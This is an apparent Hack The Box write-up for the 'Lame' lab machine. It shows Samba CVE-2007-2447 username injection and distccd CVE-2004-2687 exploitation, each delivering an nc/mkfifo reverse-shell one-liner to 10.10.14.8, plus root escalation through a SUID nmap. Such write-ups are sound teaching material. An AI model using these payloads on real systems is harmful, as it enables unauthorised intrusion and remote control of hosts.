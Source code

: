 # LAME

- Machine IP: `10.10.10.3`
- OS        : `Linux`
- Exploits  : SMBUserEnum `CVE-2007-2447`, distccd `CVE-2004-2687`

- Nmap recon, open ports 21 `(FTP)`, 22`(ssh)`, 139,445 `(samba/SMB shares)`, 3632 `(distccd)`
- Enumerating services hosted in these ports

- Ftp enumeration, anonymous login allowed and shows nothing in them

```bash
kali@kali:~/writeups/htb/lame$ ftp 10.10.10.3 
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> exit
221 Goodbye.
```


### Root Via CVE-2007-2447

- The samba version running on the host is the 3.x version which is vulnerable in the username field

> The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.


- Lets look for anonymous access, anonymous access to `/tmp` share
```bash
SMB         10.10.10.3      445    LAME             [*] Unix (name:LAME) (domain:hackthebox.gr) (signing:False) (SMBv1:True)
SMB         10.10.10.3      445    LAME             [+] hackthebox.gr\: 
SMB         10.10.10.3      445    LAME             [+] Enumerated shares
SMB         10.10.10.3      445    LAME             Share           Permissions     Remark
SMB         10.10.10.3      445    LAME             -----           -----------     ------
SMB         10.10.10.3      445    LAME             print$                          Printer Drivers
SMB         10.10.10.3      445    LAME             tmp             READ,WRITE      oh noes!
SMB         10.10.10.3      445    LAME             opt                             
SMB         10.10.10.3      445    LAME             IPC$                            IPC Service (lame server (Samba 3.0.20-Debian))
SMB         10.10.10.3      445    LAME             ADMIN$                          IPC Service (lame server (Samba 3.0.20-Debian))                         IPC Service (lame server (Samba 3.0.20-Debian))
```

- Connecting to the smbservices fails, taking a look at the [forums](https://forum.hackthebox.eu/discussion/2701/issue-with-lame) the correct syntax to connect to the machine is provided

```bash
# connection error
kali@kali:~/writeups/htb/lame$ smbclient ////10.10.10.3//tmp
do_connect: Connection to  failed (Error NT_STATUS_NOT_FOUND)

# successful login
kali@kali:~/writeups/htb/lame$ smbclient //10.10.10.3/tmp --option='client min protocol=NT1'
Enter WORKGROUP\kali's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```

- Taking a look at the opensource exploits [here](https://raw.githubusercontent.com/amriunix/CVE-2007-2447/master/usermap_script.py), gives us some idea on what is vulnerable.
- Here the username field is vulnerable as sepcified by NDD, the payload is actually send in the connection as username parameter
- Since we have access as `anonymous` user we have to login / switch user
- We can make use of the `logon` command inthe smbclient which switches user for this task
- `logon` command requires username and password, injecting the code in the username field brings us the shell as root

```bash
smb: \> logon 
logon <username> [<password>]
smb: \> logon "/=`nohup rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1337 >/tmp/f`"
Password: # blank password
# prompt stops since we have reverse shell kicked in
```

- Reverse Shell obtained as root, in the netcat listener session

```bash
kali@kali:~/writeups/htb/lame$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.3] 32846
sh: no job control in this shell
sh-3.2# whoami;hostname
root
lame
```

- Machine owned via CVE-2007-2447

### Root via CVE-2004-2687

> distcc 2.x, as used in XCode 1.5 and others, when not configured to restrict access to the server port, allows remote attackers to execute arbitrary commands via compilation jobs, which are executed by the server without authorization checks.

- The requirements for the application to be vulnerable is open port on `3632` which we have

```bash
kali@kali:~/writeups/htb/lame$ ./distccd-CVE-2004-2687.py -t 10.10.10.3 -c whoami
[OK] Connected to remote service

--- BEGIN BUFFER ---

daemon


--- END BUFFER ---

[OK] Done.
```

- Command exection checked, lets obtain reverse shell like the one mentioned above `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1337 >/tmp/f`

```bash
kali@kali:~/writeups/htb/lame$ ./distccd-CVE-2004-2687.py -t 10.10.10.3 -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1337 >/tmp/f"
[OK] Connected to remote service
[KO] Socket Timeout
```
- Obtained reverse shell as `daemon` user
```bash
kali@kali:~/writeups/htb/lame$ nc -lvnp 1337                                                                                                 [9/9]
listening on [any] 1337 ...                                                                                                                       
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.3] 49843                                                                                         
sh: no job control in this shell                                                                                                                  
sh-3.2$ whoami;hostname
daemon
lame
```

- Lets find setuid binaries in the system

```bash
sh-3.2$ find / -perm -u=s 2>/dev/null   
/bin/umount                                                                                                                      
/bin/fusermount                                                                                                                  
/bin/su
/bin/mount
..[snip]..
/usr/bin/nmap
..[snip]..
/usr/lib/pt_chown
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
```

- lets open nmap in the interactive option which can be used to execute commands

```bash
sh-3.2$ /usr/bin/nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
root
system() execution of command failed
nmap> !hostname
lame
system() execution of command failed
```

- Machine owned via CVE-2004-2687 and SUID binaries